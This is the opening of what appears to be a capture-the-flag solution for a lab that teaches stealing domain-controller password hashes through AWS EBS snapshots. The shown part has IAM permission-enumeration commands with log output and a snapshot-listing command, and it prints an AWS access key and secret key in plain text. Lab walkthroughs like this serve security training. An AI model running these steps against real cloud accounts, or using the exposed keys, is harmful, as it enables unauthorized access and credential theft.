 # Challenge 04 - AWS Only: CloudCopy Attack - SOLUTION

## Overview

This document provides a complete step-by-step walkthrough for solving the CloudCopy challenge, which demonstrates stealing NTDS hashes from Windows Domain Controllers via EBS snapshot exploitation.

## Prerequisites

- Personal AWS account (separate from the CTF lab account)
- Linux instance in your personal account (Kali Linux recommended)
- AWS CLI configured with your personal account credentials

## Step-by-Step Solution

### Step 0: Initial IAM Enumeration

First, perform a comprehensive IAM enumeration to understand available permissions:

```bash
(.venv) root@9217d31e8742:/home/enumerate-iam# python enumerate-iam.py --access-key AKIA5HCACCPUCLXM4WS5 --secret-key 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
2025-10-05 19:21:02,881 - 419 - [INFO] Starting permission enumeration for access-key-id "AKIA5HCACCPUCLXM4WS5"
2025-10-05 19:21:03,511 - 419 - [INFO] -- Account ARN : arn:aws:iam::908519937000:user/ctf-users/carlos.cardenas
2025-10-05 19:21:03,512 - 419 - [INFO] -- Account Id  : 908519937000
2025-10-05 19:21:03,512 - 419 - [INFO] -- Account Path: user/ctf-users/carlos.cardenas
2025-10-05 19:21:03,621 - 419 - [INFO] Attempting common-service describe / list brute force.
2025-10-05 19:21:04,159 - 419 - [INFO] -- sts.get_session_token() worked!
2025-10-05 19:21:04,255 - 419 - [INFO] -- sts.get_caller_identity() worked!
2025-10-05 19:21:05,733 - 419 - [ERROR] Remove globalaccelerator.describe_accelerator_attributes action
2025-10-05 19:21:11,190 - 419 - [INFO] -- ec2.describe_volumes() worked!
2025-10-05 19:21:11,409 - 419 - [INFO] -- dynamodb.describe_endpoints() worked!
2025-10-05 19:21:11,651 - 419 - [INFO] -- ec2.describe_instances() worked!
```

**Key Findings:**
- User identified as `carlos.cardenas`
- EC2 permissions include `describe_volumes`, `describe_instances` 
- STS permissions allow token generation and identity verification
- Account ID: `908519937000`

### Step 1: Initial Reconnaissance with carlos.cardenas

First, use the provided CTF credentials to enumerate available snapshots:

```bash
aws ec2 describe-snapshots --profile carlos --owner-ids self
```
